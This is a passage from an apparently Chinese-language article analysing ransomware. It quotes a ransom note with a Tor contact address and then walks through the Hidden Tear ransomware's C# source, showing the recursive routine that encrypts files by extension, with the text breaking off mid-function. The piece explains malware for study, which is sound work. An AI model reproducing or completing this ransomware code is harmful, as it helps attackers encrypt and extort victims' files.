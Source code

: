 ```
   We always keep our promises.

>> Data leak includes
1. Full emloyeers personal data
2. Network information
3. Schemes of buildings, active project information, architect details and contracts, 
4. Finance info


>>> How to contact with us? 
   1. Download and install TOR Browser (https://www.torproject.org/).
   2. Open http://supp24yy6a66hwszu2piygicgwzdtbwftb76htfj7vnip3getgqnzxid.onion/7NT6LXKC1XQHW5039BLOV.
  
>>> Warning! Recovery recommendations.  
   We strongly recommend you to do not MODIFY or REPAIR your files, that will damage them.
```

## Hidden Tear
[Hidden Tear](https://github.com/goliate/hidden-tear) 是一個開源的勒索軟體，2015 年後這個專案就沒更新了。它的變種也非常多，例如 MoWare。甚至有出現一些很鬧的變種，例如 CryptoSpider 只發送病毒通知和貓貓圖，卻沒有要贖金；還有變種 RensenWare 要求使用者要玩射擊遊戲才能解密。

### 功能
根據專案的介紹，除了解密工具外，它做了勒索軟體最基本的幾個功能。
* 用 AES 加密法加密檔案
* 把加密的 Key 送到攻擊者的機器
* 存放繳交贖金訊息的文字檔

### 實作方式
這個專案使用 C# 語言撰寫，以下實作方式就把上述三個功能的程式片段列出，並附上註解。

#### 用 AES 加密法加密檔案
```csharp=
public void encryptDirectory(string location, string password) {
    // 選擇加密目標的副檔名
    var validExtensions = new[] {
        ".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"
    };
    
    // 列舉當前目錄內的所有檔案加密
    string[] files = Directory.GetFiles(location);
    string[] childDirectories = Directory.GetDirectories(location);
    for (int i = 0; i < files.Length; i++){
        string extension = Path.GetExtension(files[i]);
        if (validExtensions.Contains(extension))
        {
            EncryptFile(files[i],password);
        }
    }
    
    // 繼續往下層目錄搜索檔案
    for (int i = 0; i < childDirectories.Length; i++){
        encryptDirectory(childDirectories[i],password);
    }
}

public void EncryptFile(string file, string password) {
    byte[] bytesToBeEncrypted = File.ReadAllBytes(file);
    byte[] passwordBytes = Encoding.UTF8.GetBytes(password);
    
    // 用 password 的 SHA256 Hash 當作 AES 的 Key 加密檔案
```